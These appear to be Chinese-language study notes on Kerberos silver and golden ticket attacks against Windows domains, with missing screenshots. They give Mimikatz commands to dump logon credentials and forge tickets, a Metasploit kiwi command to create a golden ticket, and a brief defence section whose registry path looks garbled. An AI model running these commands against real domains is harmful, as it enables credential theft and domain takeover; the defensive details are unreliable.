 Mimikatz：

kerberos::list  #列出票据

kerberos::purge   #清除票据

1. 导出目标服务器的hash，计算机名对应的hash（Username：WIN-GCA3...）

Mimikatz: C:\files>mimikatz.exe "privilege::debug""sekurlsa::.logonpasswords" "exit" > log.txt

![image-20210709101344230](C:\Users\v_lyyoli\Desktop\learn_files\typora-user-images\image-20210709101344230.png)

2. 伪造票据： mimikatz  “kerberos::golden /domain:<域名> /sid:<域SID> /target:<目标服务器主机名> .域名 /service:<服务类型> /rc4:<NTLM Hash> /user:<用户名> /ptt” exit
3. ![image-20210711155813944](C:\Users\v_lyyoli\Desktop\learn_files\typora-user-images\image-20210711155813944.png)

#### 白银票据 — 默认服务【服务类型】

由于白银票据需要目标服务器的Hash，所以没办法生成对应域内所有服务器的票据，也不能通过TGT申请。因此只能针对服务器上的某些服务去伪造，伪造的服务类型列表如下：

![image-20210709102501973](C:\Users\v_lyyoli\Desktop\learn_files\typora-user-images\image-20210709102501973.png)

> 通过伪造白银票据获得Server文件共享的权限

#### 白银票据 — 防御

1. 尽量保证服务器凭证不被窃取
2. 开启PAC（Privileged Attribute Certificate）特权属性证书保护功能，PAC主要是规定服务器将票据发送给kerberos服务，由kerberos服务验证票据是否有效

开启方式：将注册表中HKEY_LOCAL_MACHINE\SYSTEM\ValidataKdcPacSignature设置为1

## 黄金票据（Golden Tickets）

黄金票据特点：

+ 需要与DC通信
+ 需要krbtgt用户的hash

这里的krbtgt hash就是之前讲的KDC Hash

![image-20210709103449620](C:\Users\v_lyyoli\Desktop\learn_files\typora-user-images\image-20210709103449620.png)

黄金票据（Golden Tickets） — MSF kiwi

![image-20210709110301878](C:\Users\v_lyyoli\Desktop\learn_files\typora-user-images\image-20210709110301878.png)

![image-20210709110309190](C:\Users\v_lyyoli\Desktop\learn_files\typora-user-images\image-20210709110309190.png)

创建黄金票据

![image-20210709110400307](C:\Users\v_lyyoli\Desktop\learn_files\typora-user-images\image-20210709110400307.png)

```sql
golden_ticket_create -d 域名 -k krgtbt的hash -s 域的SID -u 任意用户名 -t 保存路径
```
